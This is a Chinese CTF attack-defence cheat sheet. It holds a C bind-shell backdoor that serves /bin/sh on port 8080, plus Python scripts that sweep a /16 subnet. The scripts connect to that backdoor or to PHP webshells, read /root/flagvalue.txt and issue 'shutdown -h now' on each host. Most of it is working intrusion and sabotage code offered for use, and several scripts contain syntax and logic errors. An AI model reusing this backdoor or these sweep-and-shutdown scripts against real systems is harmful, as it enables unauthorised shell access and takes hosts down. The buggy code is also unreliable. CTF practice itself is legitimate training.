

# 脚本
## 后门程序
autorunp.c
```
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
int sock, cli;
struct sockaddr_in serv_addr;

int main()
{
serv_addr.sin_family = 2;
serv_addr.sin_addr.s_Addr = 0;
serv_addr.sin_port = 0x901F;

sock = socket(2, 1, 0);
bind(sock, (struct sockaddr *)&serv_addr, 0x10);
listen(sock, 1);
cli = accept(sock, 0, 0);
dup2(cli, 0);
dup2(cli, 1);
dup2(cli, 2);
execve("/bin/sh", 0, 0);
}
```
该程序功能为在端口8080上运行/bin/sh 可通过瑞士军刀连接。比赛可能能直接利用这个后门，或者根据这个程序给出一个不完整的，来填写完整。
## 脚本
网段设置为172.16.1.1/16，靶机设为254，flag假设在/root/flagvalue.txt，webshell及shell设在web目录下/var/www 届时根据实际状况进行修改。
### nc.py
```
import pexpect #引用pexpect模块
for ip in range(1,256): #设置循环从1到254
    a = pexpect.spawn('nc 172.16.'+str(ip)+'254 8080') #设置连接参数
    a.setecho(False) #关闭反复回显
    a.sendline('cat /root/flagvalue.txt') #发送cat命令查看flag值
    a.sendline('shutdown -h now') #发送shutdown命令
    a.sendline('exit')退出
    print ('ip:'+str(ip))
    print (a.read()) #返回cat获取的flag值
    a.close #结束a 然后开始新的循环
```
### nc.py运用实例
在靶机上使用正则表达式查询进程，发现有相关进程。

使用netstat -an命令查看端口开放情况。

发现8080端口开放，证实存在后门程序，编写脚本利用。

这里设置的执行命令是cat flag*（即cat获取所有文件名flag开头的文件）和whoami(查看当前用户)，执行。

其中在ip128（即192.168.222.128）靶机上获取到了flag值，和当前用户root。
## web1.py
通过webshell获取flag值,即时获取flag,并写入flag.txt。
```
import urllib #引用urllib模块
num =1 #设置初始值为1
f = open("flag.txt","wb") #设置写入的记事本和写入方式并打开文件
while num <256: #设置条件循环，当num<256时就循环执行
    try: #正常执行
        ip = str(num) #设置ip为num值
        print (ip) #输出ip
        url = "http://172.16."+ip+".254:80/webshell.php?cmd=cat%20/root/flagvalue.txt" #设置url
        flag = urllib.urlopen(url).read() #通过urllib.urlopen().read()方法读取url页面的内容
        f.write("172.16."+ip+".10:") #将具体的ip写入flag.txt
        f.write(flag) #写入flag（即读取url页面的内容）
        f.write("\n") #换行
        print (flag) #输出flag值
        num = num + 1 #将num值+1
    except: #执行出错时,则执行except下的语句
        num = num + 1 #将num值+!
f.close() #关闭文件
```
### web1.py运用实例
查看靶机网站目录

发现有webshell.php，使用kali进行查看。

尝试输入命令cat /root/flag*

返回了flag值，可利用，可以复制url，来编写脚本利用。

这里的url也可以直接用上一图复制的url。编写完成，然后执行。

由于是获取整个web页面 所以输出的书整个web的源代码。然后查看flagz.txt

只有一台靶机，所以flagz.txt只显示192.168.222.128。
## web2.py
较web1.py减少了写文件，代码更少 比较不容易出错。
```
import requests #引用requests模块
for i in range(1,256): #设置循环
	ip = '172.16.'+str(i)+'.254' #设置ip
	url = 'http://'+ip+'/webshell.php?cmd=cat%20/root/flagvalue.txt' #设置url
	try: #正常执行
		html = requests.get(url) #获取url页面的值
		print(ip,html.content) #输出ip和获取到的页面内容
	except: #执行出错时，则执行except下的语句
		pass #空语句，即跳过
```
### web2.py运用实例
使用的情况参照web1.py运用实例，直接进入编写阶段，下图中的webshell.py即web2.py。

这里编写的是对单个ip的脚本，如果要对多个ip需要使用循环。忽略掉第四行，编写完成，然后执行。

输出结果如图，复制flag值时要把换行符忽略掉。
## shell.py
主要用来连接自己上传的木马（如一句话木马，weevely木马等）连接木马程序然后执行命令
```
import requests #引用requests模块
for i in range(1,256): #设置循环
    ip = "http://172.16."+str(ip)".254" #设置ip
    shell ="/shell.php" #这是木马所在的路径
    passwd = "cmd" #木马的密码(比如一句话木马设置的密码)
    port = "80" #网站端口
    payload={ #设置载荷
        passwd:'system(\'cat /root/flagvalue.txt \');' #执行cat命令
                        'system(\'shutdown -h now \');' #如果设置多条命令要严格设置缩进
    }
    url = ip+':'+port+shell #设置完整的url 即http://172.16.str(ip).254:80/shell.php
    try: #正常执行
        print (url) #输出url
        response = requests.post(url,payload,timeout=1) #连接，并执行载荷
        print (response.text) #输出获取到的flag
    expect: #执行出错时，则执行except下的语句
        pass #空语句，即跳过
```
